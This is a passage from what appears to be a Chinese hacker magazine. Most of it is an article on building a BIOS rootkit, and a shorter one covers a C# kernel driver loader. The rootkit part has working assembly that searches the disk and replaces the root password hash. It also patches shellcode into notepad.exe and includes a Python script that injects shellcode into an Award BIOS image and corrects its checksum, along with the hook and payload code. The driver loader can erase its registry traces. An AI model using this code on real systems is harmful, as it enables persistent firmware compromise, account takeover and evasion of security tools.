add si,0x1e0 ; DAP 0x1e0 from code
mov cx,bx
add cx,0x200 ; Buffer pointer 0x200 from code
mov byte [si],16 ; size of SAP
inc si
mov byte [si],0 ; reserved
inc si
mov byte [si],1 ; number of sectors
inc si
mov byte [si],0 ; unused
inc si
mov word [si],cx ; buffer segment
add si,2
mov word [si],ds ; buffer offset
add si,2
mov word [si],0 ; sector number
add si,2
mov word [si],0 ; sector number
add si,2
mov word [si],0 ; sector number
add si,2
mov word [si],0 ; sector number
mov di,0
mov si,0
```

```asm
mainloop:
  push di
  push si
  ; Inc sector number
  mov cx,3
  mov si,bx
  add si,0x1e8
loopinc:
  mov ax,word [si]
  inc ax
  mov word [si],ax
  cmp ax,0
  jne incend
  add si,2
  loop loopinc
incend:
  ; ---- LBA extended read sector
  mov ah,0x42 ; call number
  mov dl,0x80 ; drive number 0x80=first hd
  mov si,bx
  add si,0x1e0
  int 0x13
  jc mainend
  nop
  nop
  nop
  ; ---- Search for "root"
  mov di,bx
  add di,0x200 ; pointer to buffer
  mov cx,0x200 ; 512 bytes per sector
searchloop:
  cmp word [di],'to'
  jne notfound
  cmp word [di+2],'or'
  jne notfound
  cmp word [di+4],':$'
  jne notfound
  jmp found ; root found!
notfound:
  inc di
  loop searchloop
endSearch:
  pop si
  pop di
  inc di
  cmp di,0
  jne mainloop
  inc si
  cmp si,3
  jne mainloop
mainend:
  popf
  popad
  pop ds
  pop es
  int 3
found:
  ; 将密码替换为：
  ; root:$2a$08$Grx5rDVcDJ9AXXlXOobIfOklOnFyRjk2N0/4S8Yup33sl043vSFDffz:
  mov word [di+6],'2a'
  mov word [di+8],'$0'
  mov word [di+10],'8$'
  mov word [di+12],'Gr'
  mov word [di+14],'xD'
  mov word [di+16],'Vc'
  mov word [di+18],'DJ'
  mov word [di+20],'9A'
  ...
```

```asm
mov word [di+22],'XX'
mov word [di+24],'IX'
mov word [di+26],'Oo'
mov word [di+28],'bf'
...
mov word [di+64],'P'
;—— LBA extended write sector
mov ah,0x43 ; call number
mov al,0 ; no verify
mov dl,0x80 ; drive number 0x80-first hd
mov si,bx
add si,0x1e0
int 0x13
jmp mainend
```

附件里“\vmware\nopad_exe.asm”文件中还有一段代码执行的也是类似的功能，此时我们遍历整个磁盘，寻找 notepad.exe 内部的匹配模式，在其中注入一个对 MessageBoxA 的函数调用，随后再调用 ExitProcess 优雅地退出程序。

```asm
hook_start:
nop
nop
nop
...
jmp hook_start
mov bx,es
mov fs,bx
mov ds,ax
retf
pusha
pushf
xor di,di
mov ds,di
; check to see if int 19 is initialized
cmp byte [0x19*4],0x00
jne ifint
noint:
jmp noint ; loop to debug
popf
```

```asm
popa
;mov es,ax
mov bx,cs
mov fs,bx
mov ds,ax
retf
ifint:
jmp ifint ; loop to debug
cmp byte [0x19*4],0x46
je noint
initShellcode:
; jump initShellcode ; DEBUG
cli
push es
push ds
pushad
pushf
; Get code address
call gca
gca:
pop bx
;—— Set screen mode
mov ax,0x0003
int 0x10
;—— construct DAP
push cs
pop ds
mov si,bx
add si,0x2e0 ; DAP 0x2e0 from code
mov cx,bx
add cx,0x300 ; Buffer pointer 0x300 from code
mov byte [si],16 ; size of SAP
inc si
mov byte [si],0 ; reserved
inc si
mov byte [si],1 ; number of sectors
...
;—— Function 41h: Check Extensions
push bx
mov ah,0x41 ; call number
mov bx,0x55aa
mov dl,0x80 ; drive number 0x80-first hd
int 0x13
pop bx
jc mainend_near
;—— Function 00h: Reset Disk System
mov ah,0x00
int 0x13
jc mainend_near
jmp mainloop
mainend_near:
jmp mainend
mainloop:
```

```asm
cmp di,0
jne nochar
;----- progress bar (ABCDE...)
push bx
mov ax,si
mov ah,0x0e
add al,0x41
mov bx,0
int 0x10
pop bx
nochar:
push di
push si
jmp incend
;----- Inc sector number
mov cx,3
mov si,bx      ; bx = curr_pos
add si,0x2e8   ; +2e8 LBA Buffer
loopinc:
mov ax,word [si]
inc ax
mov word [si],ax
cmp ax,0
jne incend
add si,2
loop loopinc
incend:
LBA_read:
jmp int_test
;----- LBA extended read sector
mov ah,0x42 ; call number
mov dl,0x80 ; drive number 0x80=first hd
mov si,bx
add si,0x2e0
int 0x13
jnc int13_no_err
;----- Write error character
push bx
mov ax,0x0e45
mov bx,0x0000
int 0x10
pop bx
int13_no_err:
;----- Search for 'root'
mov di,bx
add di,0x300 ; pointer to buffer
mov cx,0x200 ; 512 bytes per sector
searchloop:
cmp word [di],0x706a
jne notfound
cmp word [di+2],0x9868
jne notfound
;debugme:
;je debugme
cmp word [di+4],0x0018
jne notfound
cmp word [di+6],0xe801
jne notfound
jmp found ; root found!
notfound:
inc di
loop searchloop
endSearch:
pop si
pop di
inc di
cmp di,0
jne mainloop
```

```asm
inc si
cmp si,EXTENT ; <= 10x65535 sectors to read
jne mainloop
jmp mainend
exit_error:
pop si
pop di
mainend:
popf
popad
pop ds
pop es
stc
popf
popa
mov bx,es
mov fs,bx
mov ds,ax
retf
writechar:
push bx
mov ah,0x0e
mov bx,0x0000
int 0x10
pop bx
ret
found:
mov al,0x46
call writechar
;mov word [di], 0xfeeb ; Infinite loop - Debug
mov word [di], 0x00be
mov word [di+2], 0x0100
mov word [di+4], 0xc700
mov word [di+6], 0x5006
mov word [di+8], 0x4e57
mov word [di+10], 0xc744
mov word [di+12], 0x0446
mov word [di+14], 0x2121
mov word [di+16], 0x0100
mov word [di+18], 0x016a
mov word [di+20], 0x006a
mov word [di+22], 0x6a56
mov word [di+24], 0xbe00
mov word [di+26], 0x050b
mov word [di+28], 0x77d8
mov word [di+30], 0xd6ff
mov word [di+32], 0x00be
mov word [di+34], 0x0000
mov word [di+36], 0x5600
mov word [di+38], 0xa2be
mov word [di+40], 0x81ca
mov word [di+42], 0xff7c
mov word [di+44], 0x90d6
;----- LBA extended write sector
mov ah,0x43 ; call number
mov al,0 ; no verify
mov dl,0x80 ; drive number 0x80=first hd
mov si,bx
add si,0x2e0
int 0x13
jmp notfound ; continue searching
nop
```

####### 3）修改真实的 Award BIOS

VMWare 是 BIOS 研究及实验的一个极好平台，但是欲达成我们的终极目标，还是要将研究工作移植到真实的系统下面。我们准备了一款比较常见的，带有……准备采用 Award/Phoenix 6.00PG BIOS 的 Asus A7V8X-MX 主板，准备开始这一阶段修改真实 BIOS 的梦幻之旅。

######## ① 转储真实的 BIOS 固件

FLASH 芯片之间都是兼容的，甚至是可以互相交换使用的，但是它们和主板的连接方式却各不相同，如 PCI 和 ISA 等等，这使得想要采用一个通用方法从中读取数据变得比较难以实现。那么现在如何来为我们的 Rootkit 创建一个通用可靠的读取 FLASH 芯片的办法呢？自然，我们想到了硬件 FLASH 读卡器（hardware flash reader）。这个方法是可以的，但是我们目前手边没有现成的设备，而且如果你想不经过物理访问，通过远程来感染 BIOS 的话，这也并不是最好的选择。

我们转而寻找一种软件的替代方案，我们看中的，是 COREBOOT（由 Debian 附带）开源项目中的 Flashrom Utility 工具。它包含了一个芯片的扩展数据库，以及对应的读写程序库，除了能够自动探测 IC 设计模型的能力，更提供了丰富的手动功能。我们使用下面的命令，不出意外的话，应该就可以得到一个 mybios.rom 的固件文件了。

```bash
$ flashrom -r mybios.rom
```

如果该过程中 Flashrom 提示说不能识别芯片类型，我们可以写一个脚本将相关信息告知它。编写脚本显得稍微有些复杂，但是只有当 Flashrom 确实识别出芯片的 IC 模型之后，才能采取合适且正确的读写方法。当然，通过直接修改源代码的方法就可以绕过这个限制，在目前的主板上也是可以实现的。另外，我们在后面还将用 Flashrom 来更新和上传修改后的 BIOS 固件程序。

######## ② 修改

一旦在磁盘上得到了 BIOS 的映像文件，就可以着手向其中注入恶意代码了。修改真实的 BIOS，尤其是 Award/Phoenix BIOS 的时候，我们可能会面临着几个比较严重的问题：一是缺乏 BIOS 芯片结构的详细文档说明；二是缺乏相关的压缩与解压缩工具；三是缺乏适合真实环境下的硬件调试工具。

虽然现在有很多免费工具可以操作 BIOS 固件程序，但总是和具体芯片专有的文件类型相关联，想要找到一款适合于我们固件环境的并不容易。虽然我们在前文提到了 Linux 下的 awardeco 和 phnxdeco 工具，但它们在修改现代较新版本的 BIOS 固件程序时居然操作失败了。所以，我们最终还是回到了 Flashrom 的环境。接下来的感染计划分为以下几个步骤：借助校验和的计算在 BIOS 中插入执行代码；将一个基本的钩子程序放置在 BIOS 中通用的、容易被其他模块调用到的地方；钩子运行之后，检测准备服务就位，就可以开始插入 Shellcode 代码了。

######### a）蓝屏死机

现在有必要再提醒一下，我们是在真刀真枪地修改系统 BIOS 芯片中的程序，稍有不慎就有可能导致系统蓝屏死机。然而也不必过分紧张，大多数的 BIOS 都有从固件损坏状态恢复到初始状态的安全机制，参阅主板的说明手册就可以找到相关的详细信息。除此之外，还有一项被称为“热交换（hot-swapping）”的技术，可以先以一个正常的芯片启动，在运行时转换到损坏的固件上，并完成重刷程序的过程。有了这样一个备份的 BIOS，真是为我们的工作买了一笔不小的保险啊。

######### b）每次修改一位

我们最初的几次尝试都没有成功，制造了不少不能启动、如废铁一样的垃圾系统。后来究其原因才发现，是忽视了修改后的 BIOS 中的校验值的更新，而且校验值在 BIOS 中无处不在，有一个地方没有更新都会导致“BIOS CHECKSUM ERROR”，从而引起系统的蓝屏死机。无数次的失败促使我们静下心来思考 BIOS 中的校验更新机制，必定是存在着某种比较操作来验证校验值的正确与否。要找到所有的更新点是十分困难的，但是后来我们想到了一种绕过的方法——在 BIOS 中某处注入一个修正值来补偿校验和的计算，CRC 检验机制的原理不就是这个样子的吗？附件中的 Python 脚本“\hardware\modifBios.py”就是上述思想转化而得到的校验值更新程序。

```python
#!/usr/bin/python
import os,sys,math
# Usage
if len(sys.argv)<3:
    print "Modify and recalculate Award BIOS checksum"
    print "Usage: %s <original bios> <assembly shellcode file>" % (sys.argv[0])
    exit(0)

# assembly the file
scasm = sys.argv[2]
sccom = "%s.bin" % scasm
os.system("nasm %s -o %s" % (scasm,sccom))
shellcode = open(sccom,'rb').read()
shellcode = shellcode[0xb55:] # skip the NOPs
os.unlink(sccom)
print ("Shellcode length: %d" % len(shellcode))

# Make a copy of the original BIOS
modifname = "%s.modif" % sys.argv[1]
origname = sys.argv[1]
os.system("cp %s %s" % (origname,modifname))

# merge shellcode with original flash
insertposition = 0x3af75
modif = open(modifname,'rb').read()
os.unlink(modifname)
newbios = modif[:insertposition]
newbios += shellcode
newbios += modif[insertposition+len(shellcode):]
modif = newbios

# insert hook
hookposition = 0x3e41d
hook = "\xe9\x55\x0b"
```

```python
newbios=hook
newbios=modif[hookposition+len(hook):]
modif=newbios
# read original flash
orig=open(sys.argv[1],'rb').read()
# calculate original and modified checksum
# Sorry, this script is not 'that' generic
# you will have to harvest these values
# manually, but you can craft an automatic
# one using pattern search.
# These offsets are for the Asus A7V8X-MX
# Revision 1007-001
start_of_decomp_blk=0x3a400
start_of_compensation=0x3affc
end_of_decomp_blk=0x3b000
ochksum=0 # original checksum
mchksum=0 # modified checksum
for i in range(start_of_decomp_blk,start_of_compensation):
    ochksum+=ord(orig[i])
    mchksum+=ord(modif[i])
print("Checksums: Original=%08X Modified=%08X" % (ochksum,mchksum))
# calculate difference
chkdiff=(mchksum & 0xff) - (ochksum & 0xff)
print("Diff: %08X" % chkdiff)
# balance the checksum
newbios=modif[:start_of_compensation]
newbios+=chr((0x1FF-chkdiff) & 0xff)
newbios+=modif[start_of_compensation+1:]
...
print("Please check the last digit, must be the same in both checksums")
newbiosname=sys.argv[2]+"_compensated"
w=open(newbiosname,'wb')
w.write(newbios)
w.close()
print("New bios saved as %s" % newbiosname)
```

使用上述技术，我们成功地修改了一位，接着到一个字节，再后来到 BIOS 未压缩区域中的多个字节，至此，第一步就已经完成了。

######### c）安装钩子

钩子程序将被安装到 BIOS 的解压例程，在前面 VMWare 的实验中，我们也是在同一位置安装的注入代码——在解压例程尾部的缓冲区中有足够的空间来存放第一阶段的代码。该位置比较明显，找起来十分容易，使用 phnxdeco 或者其他工具在 Phoenix BIOS 中搜索“= Award Decompression Bios =”，被标识为“DECOMPCODE”的就是我们所要找的部分。

要确保挂钩正确，还需要执行一些特定的处理步骤。首先，要插入一个基本的、能够跳转到代码前方随后又能跳转回来的钩子程序；然后，将其设置为执行一个无穷循环，这也是我们在没有调试器检测钩子是否已经被执行的情况下所采取的无奈之举。

如果能够进入这段循环流程，那恭喜你，代码就已经从 BIOS 中隐蔽运行起来了。

######## ③ 载荷

现在貌似已经完全控制了 BIOS，那就到我们 16 位的 Shellcode 代码大显神通的时候了，发挥 int 10h 中断的作用，在屏幕上显示一段字符“! PWNED J00!”，随后再用 int 13h 将其写到磁盘上。

不过进展并没有想象中的那样迅速，迎接我们的一次又一次的黑屏失败，其中的原因仍然是我们目前还没有完全控制住 BIOS。首先，就像我们在 VMWare 中设置的钩子一样，在启动过程中我们获得了多次执行的机会。第一次的时候，磁盘还没有开始旋转，屏幕仍然是关闭的，而且最令人匪夷所思的是，IVT 尚还没有初始化。这听起来很酷，但确实是一个棘手的问题。磁盘不旋转，就没有办法往其中写入数据；中断向量没有初始化，就不能使用其中的中断功能。我们必须等待，直到允许载荷开始执行的时机到来，这里再一次需要一个能够触发载荷开始工作的准备信号。

在 VMWare 中，我们使用的是 IVT 作为工作的准备信号。ShellCode 在实模式下，映射到固定的 0000:0000 地址，检测正确的指针值，查看 IVT 是否已经准备就绪。然而这种技术在真实环境下是行不通的，IVT 中的指针值总是变来变去、移动个不停，即使在同一制造商的 BIOS 版本之间也是如此。我们需要一种更好的、“放之四海皆准”的技术。

通过研究发现，替代的技术简单说来就是检查 C000:0000 地址处是否存在“AA55h”的数据签名。VGA BIOS 在所有计算机上都是精确定位到这个位置，而且“AA55h”就是 VGA BIOS 准备就绪的完成信号。如果 VGA BIOS 加载完成，意味着 IVT 也已经初始化完毕，可以执行需要的中断操作了。不过还请多加注意，此时的磁盘还没有开始工作，我们可以用非崩溃性的 int 13h 中断，41h 号功能函数来检测一下 LBA 功能扩展，或者用 00h 号函数重置磁盘设备。接下来，如果磁盘可以工作的话，我们就可以向其中插入磁盘级别的 Rootkit 了，SMBIOS、bluepill 或者是 I-love-You 病毒等，也都是些不错的选择。

下面是第二阶段的 Shellcode 代码，对应附件中的“\hardware\skull.asm”文件。

```asm
; skull.asm，请使用 nasm 编译
BITS 16
back:
TIMES 0x0b55 db 0x90
begin2:
    pusha
    pushf
    push es
    push ds
    push 0xc000
    pop ds
    cmp word [0],0xaa55
    ...
```

```asm
; ...（BIOS32 相关汇编代码段）
je print
volver:
pop ds
pop es
popf
popa
pushad
push cx
jmp back
print:
jmp start
message:
123456789
msg db ...
...
start:
; geteip
call getip
getip:
pop dx
; init video
mov ax,0003
int 0x10
; video write
mov bp,dx
sub bp,S8 ; message
; write string
mov ax,0x1300
mov bx,0x0007
mov cx,53
mov dx,0x0400
push es
pop es
int 0x10
call sleep
jmp volver
sleep:
mov cx,0xfff
l1:
push cx
mov cx,0xffff
l2:
loop l2
pop cx
loop l1
ret
```

###### BIOS32——直接感染内核

Rootkit 已经成功地在 BIOS 中感染并执行，理想情况下应该是长驱直入，直接攻占操作系统内核。因此，我们还需要在硬盘上放置一段 Shellcode，或者使用 SMBIOS 之类的 Rootkit。然而，宿主机器的配置情况千变万化，要是机器的硬盘做过加密处理，或者根本就没有硬盘，而是直接从网络端连接启动，那我们该怎么办呢？

不用担心，本章正是为解决此问题而设置的。有人认为系统启动之后，BIOS 将不再有任何用武之地，这是一种误解，是错误的。操作系统还将继续调用 BIOS 中的各项功能和中断服务，比如视频卡设置，以及 BIOS32 调用等都将继续发挥其巨大作用。

那 BIOS32 到底是什么呢？在 Google 上搜索，我们得知它是一种很特殊的、由 BIOS 开发商在后 MS-DOS 时代为现代 32 位操作系统所提供的 BIOS 信息服务，可以在 32 位的环境下运行（《Standard BIOS 32-bit Service Directory Proposal 0.4》一文有更为详细的介绍）。操作系统将这些 BIOS32 服务的入口结构以 16 字节的方式对齐，组织成表存放在 E000:0000 至 F000:FFFF 的内存空间中。因此，我们只要替换掉其中一些 BIOS32 的首部入口结构就可以了，其结构如表 1 所示。

| 偏移 | 字节数 | 说明 |
|---|---:|---|
| 0 | 4 | 数据签名标识“_32_”，0x5F32335F |
| 4 | 4 | BIOS32 服务的入口点，函数指针 |
| 8 | 1 | 修订级别，设置为 0 |
| 9 | 1 | BIOS32 首部长度，设置为 1 |
| 10 | 1 | 8 位校验值 |
| 11 | 5 | 保留，设置为 0 |

所有的 BIOS 服务都遵循这样的入口结构模式，定位一个服务只需要按照模式搜索匹配某校验值，执行时按照其处理函数指针指向的位置调用即可，会由一个类似分配函数（dispatcher）的程序来处理。BIOS 中的许多功能，例如 Plug and Play（即插即用，$PnP$）、Post Memory Manager（POST 时期内存管理，$PMM$）和 BIOS32（_32_）等都是这样调用的。而且极为幸运的是，该调用机制在设计之初，相关的安全保护措施还不尽完善，给了我们绝好的机会可以在其中注入代码，而且最终操作系统将无条件相信 BIOS 的所有行为。

我们在 Linux 2.6.27 下发现有内核函数调用了如下的 BIOS32 服务，即 arch/x86/pci/pcibios.c，check_pcibios()。

```c
if ((pcibios_entry = bios32_service(PCI_SERVICE))) {
    pci_indirect.address = pcibios_entry + PAGE_OFFSET;
    local_irq_save(flags);
    asm (
        "lcall *(%%edi); cld\n\t"   /* <-- Pwn point */
        ...
    );
}
```

而在 OpenBSD 4.5 下也有类似的代码，位于 sys/arch/i386/i386/bios.c，bios32_service() 中。

```c
int bios32_service(u_int32_t service, bios32_entry_t e,
    bios32_entry_info_t ei)
{
    ...
    base = 0;
    asm volatile("lcall *(%4)" /* <-- Pwn point */
        : "+a"(service), "+b"(base), "=c"(count), "=d"(off)
        : "D"(&bios32_entry)
        : "%esi", "%ecx", "memory");
    ...
}


```

截至目前，我们还尚未弄清楚 Windows XP/Vista/7 下直接调用 BIOS32 的数据和方法，但是参照 JHeasman 的演讲稿《Firmware Rootkits, The Threat to the Enterprise》来看，Windows 内核中是直接调用的 int 10h 服务。伪造一个新的 BIOS32 首部，或者篡改一个现有的，都是可以在操作系统内核中直接运行二进制代码的有效方法。它比 int 10h 要简单方便，不再需要像本文介绍的古怪技术那样，在保护模式和其他模式之间来回转换。在此由于篇幅和时间所限，我们将暂不提供 BIOS32 的感染程序。它实现起来要相对简单，有兴趣的读者可以在 VMWare 里自行试验和调试。

###### 未来病毒画面

篡改 BIOS 是一种十分强有力的攻击技术，正如前面所看到的，如果我们在启动的早期能够控制住系统，那几乎就等于是堵死了反病毒等安全工具发挥作用的根本途径。更进一步，我们还可以使用位于启动扇区，或者文件系统中的 Rootkit 达到攻击持久化的目的。不过更有趣的还在后头，放置一个更加厉害的 VMM Rootkit 或者 SMM Rootkit 等，可能会取得更令人意想不到的结果。

- 1）SMM

放置 SMM Rootkits 的难点在于，一旦系统启动之后，就不能再接触 SMM 所在的 SMRAM 内存区了，因为 BIOS 设置了 SMRAC 寄存器中的 D_LCK 位，将该区域锁定。目前已有 Duflot 等人在着力研究绕过这种限制的有效方法。但是现在请回到我们 BIOS 的感染程序中来，这样的限制是不存在的，因为我们在它锁定保护之前，就可以通过固件直接修改 SMRAM 内存了！虽然这项技术的难度很大，但也并非完全不可能实现，相信在将来的某一天，它一定会给大家带来新的惊喜。

- 2）签名的固件

BIOS 目前最大的安全隐患就来自于使用了未经签名的固件程序，因此业界才开始大力推广使用带有数字签名功能的新型 BIOS 系统，为启动阶段的系统安全提供了额外的、更高一层的保护措施。然而即便如此，也没有固若金汤的堡垒存在，漏洞和后门等长期困扰着系统安全的脆弱性隐患仍然屡禁不止。时至今日，虽然还没有能在签名固件上的持久化攻击技术出现，但 InvisibleThingsLab 的《Attacking Intel Trusted Execution Technology》一文又给我们带来了一丝希望，可以激起我们一些思维的火花。

- 3）结束语

在计算机系统中，几乎没有任何软件能和 BIOS 所处的基础性地位相抗衡。而且 BIOS 的技术也在不断完善，UEFI（Unified Extensible Firmware Interface）——一种新的固件接口模型更是为 BIOS 的安全和标准化带来了新的发展契机。

然而与此同时，我们搜寻、逆向和破解 BIOS 固件程序的队伍也在不断壮大。它难免存在漏洞，以此就可以植入恶意代码，最终，我们还是将取得系统的完全控制权。如果读者对 BIOS 方面的研究还有更加浓厚的兴趣，需要更丰富研究资料的话，不妨到 WIM'S BIOS High-Tech Forum（http://www.wimsbios.com/）论坛逛逛。那里不仅有同样热情高涨的爱好者、BIOS 方面的资深专家，还有更多 BIOS 底层尚未为人熟知的具体细节，相信对你们一定会有所帮助。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：C#  
关键词：编程、驱动、模块加载

##### 基于 .NET 框架的驱动加载模块的设计与实现
文/图 武大 范荣超 赵汗青 高献辰

我们知道，在开发安全相关软件时需要同时涉及用户态和内核态的编程。内核态编程，可以说是百丈华山……一条路，参考 Windows DDK 用 C、C++、汇编完成，形式很固定；但是到了用户态，我们有了新选择——.NET 框架。

你是否用 MFC 开发用户态程序时被绕得晕头转向？是否被自己写的简陋界面恶心到了？是否希望更简捷高效地进行用户态的开发？你将在这里找到答案。

其实写这个系列是围绕着一个出发点的，就是用最合适的技术解决问题（可以参考非开源 hook 检测软件 VICE，https://www.rootkit.com/board_project_fused.php?did=proj20）。.NET 框架是微软主推的技术，它有微软源源不断的支持（WCF、WPF），并且有很多健壮的机制（.NET Remoting、托管、垃圾回收），并且 C# 这门纯面向对象语言可以更加高效地专注于业务逻辑。

为了完成这一目标，我们需要实现以下三个模块：

- 驱动加载和卸载模块
- 驱动通信模块
- 资源管理模块（此模块属于锦上添花，一个 EXE 把驱动、配置文件都包括了，在运行的时候释放，像冰刃那样）

首先来实现驱动加载和卸载模块。我们用三种不同的方式实现驱动的加载：

- 通过 ZwSetSystemInformation 实现加载
- 通过 NtLoadDriver 实现加载
- 通过服务控制管理器（Service Control Manager，SCM）实现加载

ZwSetSystemInformation 是一种未在文档中说明但被长期使用的 API，可以在无须创建任何注册表的情况下将驱动程序加载到内核中。但由它加载的驱动是可分页的，任何组成部分都可以被换页。有时当内存被换页出后，就再无法访问它，尝试对其进行访问会导致蓝屏。此外，一旦加载就不能卸载，只能重新启动才能卸载。

这里我们用到了 .NET 提供的 P/Invoke（平台调用）技术，它可以实现托管代码访问所有用户态 API（包括 Native API，这里我们将用到）。关于将 Windows API 导入到托管代码请参考 www.pinvoke.net，这个网站为开发者提供了方便查询功能，只需输入函数或结构的原型就能查出它的托管表示。我们将 Native API 以及相应的数据结构封装在 Native 类中，代码如下：

```csharp
public struct UNICODE_STRING
{
    public ushort Length;
    public ushort MaximumLength;
    public string Buffer;
}

[DllImport("ntdll.dll", CharSet = CharSet.Unicode, SetLastError = true)]
unsafe public static extern int ZwSetSystemInformation(
    int Value1,
    IntPtr Value2,
    int Value3
);
```

ZwSetSystemInformation 的实现代码如下：

```csharp
namespace FRCLoad
{
    public class DriverLoader
    {
        public static long ZwStyleLoader(string DriverPath)
        {
            // 使用 ZwSetSystemInformation 加载驱动
            bool en;
            int Status;
            string FullDriverPath = "\\??\\" + DriverPath + "\0";
            Native.SYSTEM_LOAD_AND_CALL_IMAGE img;
            Status = Native.RtlInitUnicodeString(out img.ModuleName, FullDriverPath);
            if (Status != Native.STATUS_SUCCESS) return Native.STATUS_NTUNISTRING_FAILURE;
            Status = Native.RtlAdjustPrivilege(
                10,
                true,
                Native.ADJUST_PRIVILEGE_TYPE.AdjustCurrentProcess,
                out en);
            if (Status != Native.STATUS_SUCCESS) return Native.STATUS_PRIVILEGES_NOT_SET;
            IntPtr buffer = Marshal.AllocCoTaskMem(Marshal.SizeOf(img));
            Marshal.StructureToPtr(img, buffer, false);
            Status = Native.ZwSetSystemInformation(
                Native.SystemLoadAndCallImage,
                buffer,
                Marshal.SizeOf(img));
            return Status;
        }
    }
}
```

NtLoadDriver 是通过向注册表写入相关项实现加载驱动的一种方式，注册位置在源代码中。

NtLoadDriver 方式的实现代码如下：

```csharp
public class Native
{
    public const int NtCurrentProcess = -1;
    public const int NtCurrentThread = -2;
    public const long NT_SUCCESS = 0x00000000L;
    public const int STATUS_SUCCESS = 0;

    [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Unicode)]
    public struct CLIENT_ID
    {
        int UniqueProcess;
        int UniqueThread;
    }

    [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Unicode)]
    public struct UNICODE_STRING
    {
        public ushort Length;
        public ushort MaximumLength;
        public string Buffer;
    }
}
```

```csharp
public static long NtStyleLoader(
    string DriverPath,      // 驱动路径
    bool UnloadDriver,      // 卸载驱动
    bool DeleteDriver,      // 删除驱动文件
    bool DeleteRegEntry,    // 删除注册表痕迹
    bool UnloadMode         // 卸载模式
)
{
    int Status = 0;
    int HKEY_LOCAL_MACHINE = 2147483646;
    const string hKeyLoMachine = "HKEY_LOCAL_MACHINE";
    int hk = 0;
    bool en;
    string DriverFile = Path.GetFileName(DriverPath);
    // 从路径中获得文件名
    string RegUniPath = "\\Registry\\Machine\\SYSTEM\\CurrentControlSet\\Services\\" + DriverFile;
    string RegPath = "SYSTEM\\CurrentControlSet\\Services\\" + DriverFile;
    string ImgPath = "ImagePath";
    string Tp = "Type";
    Native.UNICODE_STRING UDriverPath;
    string Pathie = "\\??\\" + DriverPath + "\0";
    int SERVICE_KERNEL_DRIVER = (int)0x00000001;
    string subkey = "SYSTEM\\CurrentControlSet\\Services\\" + DriverFile;
    string keyName = hKeyLoMachine + "\\" + subkey;

    if (UnloadMode == true) UnloadDriver = true;
    if (UnloadMode == false)
    {
        Status = Native.RegCreateKey(HKEY_LOCAL_MACHINE, ref RegPath, ref hk);
        Status = Native.RegSetValueEx(hk, ref ImgPath, 0, 1, ref Pathie, Pathie.Length);
        Status = Native.RegCloseKey(hk);
        Registry.SetValue(keyName, Tp, SERVICE_KERNEL_DRIVER, RegistryValueKind.DWord);
    }

    Status = Native.RtlAdjustPrivilege(
        10,
        true,
        Native.ADJUST_PRIVILEGE_TYPE.AdjustCurrentProcess,
        out en
    );
    if (Status != Native.STATUS_SUCCESS)
    {
        Native.SHDeleteKey(HKEY_LOCAL_MACHINE, subkey);
        return Native.STATUS_PRIVILEGES_NOT_SET;
    }

    Status = Native.RtlInitUnicodeString(out UDriverPath, RegUniPath);
    if (Status != Native.STATUS_SUCCESS)
    {
        Native.SHDeleteKey(HKEY_LOCAL_MACHINE, subkey);
        return Native.STATUS_INITUNSTRING_FAILURE;
    }

    if (UnloadMode == false)
    {
        Status = Native.NtLoadDriver(ref UDriverPath);
        if (Status != Native.STATUS_SUCCESS)
        {
            Native.SHDeleteKey(HKEY_LOCAL_MACHINE, subkey);
            return Status;
        }
    }

    if (UnloadDriver == true)
    {
        Status = Native.NtUnloadDriver(ref UDriverPath);
        if (Status != Native.STATUS_SUCCESS)
        {
            return Status;
        }
    }

    if (DeleteDriver == true)
    {
        ...
    }

    {
        File.Delete(DriverPath);
    }

    if (DeleteRegEntry == true)
    {
        Status = Native.SHDeleteKey(HKEY_LOCAL_MACHINE, subkey);
        if (Status != Native.STATUS_SUCCESS)
        {
            return Status;
        }
    }

    return Native.STATUS_SUCCESS;
}
```

当程序通过 SCM 加载时，需要创建注册表键，它是不可分页的，这意味着驱动程序代码不会在内存中消失，不会被换页出，不会导致蓝屏，是推荐的方式。服务控制管理器方式的实现代码如下：

```csharp
public static bool ScmStyleLoader(
    string DriverPath,
    bool UnloadDriver,
    bool DeleteDriver,
    bool DeleteRegEntry,
    bool UnloadMode
)
{
    bool Status = false;
    int HKEY_LOCAL_MACHINE = 2147483646;
    IntPtr hService = new IntPtr(0);
    Native.SERVICE_STATUS Service_Status;
    string ServiceName = Path.GetFileName(DriverPath);
    string RegPath = "SYSTEM\\CurrentControlSet\\Services\\" + ServiceName;

    IntPtr scHandle = Native.OpenSCManager(
        null,
        null,
        Native.SC_MANAGER_ALL_ACCESS
    );

    if (scHandle != IntPtr.Zero)
    {
        if (UnloadMode == false)
        {
            hService = Native.CreateService(
                scHandle,
                ServiceName,
                ServiceName,
                Native.SERVICE_ALL_ACCESS,
                Native.SERVICE_KERNEL_DRIVER,
                Native.SERVICE_DEMAND_START,
                Native.SERVICE_ERROR_NORMAL,
                DriverPath,
                null,
                null,
                null,
                null,
                null
            );
        }

        if (hService == null)
            hService = Native.OpenService(scHandle, ServiceName, Native.SERVICE_ALL_ACCESS);

        IntPtr tStatus = Native.StartService(hService, 0, null);
        if (tStatus == IntPtr.Zero)
        {
            return Status;
        }
    }
    else
    {
        Status = true;
    }

    ...

    else UnloadDriver = true;
    if (UnloadDriver == true)
    {
        IntPtr ServHandle = Native.OpenService(scHandle, ServiceName, Native.SERVICE_ALL_ACCESS);
        Native.ControlService(ServHandle, Native.SERVICE_CONTROL_STOP, out Service_Status);
        IntPtr DelSta = Native.DeleteService(ServHandle);
        if (DelSta == IntPtr.Zero)
        {
            Status = false;
        }
    }

    if (DeleteDriver == true)
    {
        File.Delete(DriverPath);
    }

    if (DeleteRegEntry == true)
    {
        Native.SHDeleteKey(HKEY_LOCAL_MACHINE, RegPath);
    }

    Native.CloseServiceHandle(hService);
    Native.CloseServiceHandle(scHandle);
    return Status;
}
```

我们将这三种方法都封装在 DriverLoader 中，以便以后使用。

```c
Status = DriverLoader.ZwStyleLoader(FileNamePath);
// or
Status = DriverLoader.NtStyleLoader(
    FileNamePath, UnloadDriver, DeleteDriver, DeleteRegEntry, UnloadMode);
// or
DriverLoader.ScmStyleLoader(
    FileNamePath, UnloadDriver, DeleteDriver, DeleteRegEntry, UnloadMode
);

